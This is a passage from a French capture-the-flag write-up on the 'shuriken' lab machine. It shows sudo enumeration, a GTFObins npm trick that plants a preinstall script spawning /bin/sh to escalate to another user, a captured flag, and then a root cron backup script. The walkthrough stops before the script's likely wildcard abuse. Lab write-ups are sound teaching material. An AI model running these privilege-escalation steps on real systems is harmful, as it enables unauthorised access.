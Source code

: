 Une recherche plus généraliste permet de découvrir que `www-data` peut exécuter `npm` avec les droits de `server-management` :

```bash
www-data@shuriken:/tmp$ sudo -l
Matching Defaults entries for www-data on shuriken:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shuriken:
    (server-management) NOPASSWD: /usr/bin/npm
```

L'une des entrées de [GTFObins](https://gtfobins.github.io/gtfobins/npm/) s'applique à `npm` :

```bash
www-data@shuriken:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > ^CF/package.json
www-data@shuriken:/tmp$ mkdir yolo
www-data@shuriken:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > yolo/package.json
www-data@shuriken:/tmp$ sudo -u server-management /usr/bin/npm -C yolo i

> @ preinstall /tmp/yolo
> /bin/sh

$ id
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management),24(cdrom),30(dip),46(plugdev),116(lpadmin),122(sambashare)
```

On peut alors récupérer notre premier flag : `67528b07b382dfaa490f4dffc57dcdc0`

Il y a une tache crontab qui effectue une sauvegarde des fichiers de `server-management` :

```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/2   * * * *   root    /var/opt/backupsrv.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Voici le code du script bash :

```bash
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

```